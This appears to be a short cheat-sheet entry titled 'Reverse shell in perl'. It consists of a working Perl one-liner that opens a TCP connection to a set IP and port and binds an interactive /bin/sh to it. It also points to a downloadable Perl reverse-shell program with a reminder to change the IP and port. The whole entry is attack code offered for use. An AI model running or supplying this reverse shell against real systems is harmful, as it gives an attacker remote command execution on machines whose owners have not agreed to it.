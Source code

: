 ### Reverse shell in perl
``perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'``

http://pentestmonkey.net/tools/web-shells/perl-reverse-shell
This is a perl program which can be downloaded and modified to call back to you. (Remember to change IP + PORT)